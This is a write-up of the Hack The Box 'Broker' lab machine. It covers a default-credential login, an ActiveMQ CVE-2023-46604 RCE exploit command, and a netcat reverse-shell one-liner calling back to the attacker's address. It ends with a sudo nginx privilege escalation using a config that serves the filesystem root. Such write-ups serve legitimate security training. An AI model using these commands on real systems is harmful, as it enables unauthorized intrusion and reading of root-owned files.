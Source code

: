 ```yaml
---
layout: post
title: Hack The Box - Broker Writeup
date: 2024-06-15 02:00:00 +0100
published: true
categories: [Hack The Box]
tags: [Hack The Box]
---
```


![brokerBadge.png](/assets/img/Broker/brokerBadge.png)

## Summary

Bypassing basic `HTTP` authentication on port 80 reveals that `Apache ActiveMQ` is used to host website. Searching for `Apache ActiveMQ` vulnerabilities I found exploit which allows RCE. Exploit generated a pseudo shell which I leveraged to get reverse shell on system. Enumerating system as user `activemq` reveals that we can run `/usr/sbin/nginx` with `sudo`. Running `/usr/sbin/nginx` with `-c` parameters allows us to set arbitrary configuration file.  I was able to leverage this by creating a new vulnerable `nginx` configuration file with root directory set to filesystem root. Running `/usr/sbin/nginx` with `sudo` and malicious `nginx.conf` file allowed me to read all files on filesystem. 


## Reconnaissance

### Nmap

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Service Enumeration

| **IP Address** | **Ports Open** |
|-------|--------|
| 10.10.11.180 | **TCP**: 22, 80 |


#### Port 80

Accessing port 80 we can see that there is basic HTTP authentication set. 

![80basicAuth.png](/assets/img/Broker/80basicAuth.png)


I was able to sign in using default credentials `admin : admin`. Successful login grants us access to `index.html` which reveals that `Apache ActiveMQ` is used. 

![80.png](/assets/img/Broker/80.png)


## Initial Foothold

Searching for `Apache ActiveMQ` vulnerabilities I found [exploit](https://github.com/duck-sec/CVE-2023-46604-ActiveMQ-RCE-pseudoshell) which allows remote code execution.

```
python3 exploit.py -i 10.10.11.243 -si 10.10.14.14 -sp 8087
```

![exploit.png](/assets/img/Broker/exploit.png)

To get reverse shell on the system I used this payload: 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.14 80 >/tmp/f
```

![reverseShell.png](/assets/img/Broker/reverseShell.png)

![userFlag.png](/assets/img/Broker/userFlag.png)


## Privilege Escalation

### System Enumeration

Enumerating system as user `activemq` reveals that we can run `/usr/sbin/nginx` with `sudo`. 

```
sudo -l
```

![sudoL.png](/assets/img/Broker/sudoL.png)

### Creating vulnerable nginx server 

First I tried to see all parameters that can be set when running `nginx`. 

```
sudo /usr/sbin/nginx -h
```

![nginxHelp.png](/assets/img/Broker/nginxHelp.png)

We can see that `-c` option allows us to set arbitrary configuration file. To leverage this I created new `nginx.conf`. Server will be listening on port 8081 and root directory is set to filesystem root. 

```
user root;
worker_processes auto;
error_log /var/log/nginx/error.log warn;
pid /var/run/nginx.pid;

events {
    worker_connections 1024;
}

http {
    include /etc/nginx/mime.types;
    default_type application/octet-stream;

    server {
        listen 8081;
        server_name localhost;

        root /;  # Setting the root to the filesystem root

        location / {
            try_files $uri $uri/ =404;
        }

        error_page 500 502 503 504 /50x.html;
        location = /50x.html {
            root /usr/share/nginx/html;  # Serve error page from a safer directory
        }
    }
}
```

Running `/usr/sbin/nginx` with this configuration file and `sudo` privileges creates vulnerable `nginx` server on port 8081 which allows us to read any file on filesystem. 

```
sudo /usr/sbin/nginx -c "/tmp/nginx.conf"
```

![escalation.png](/assets/img/Broker/escalation.png)
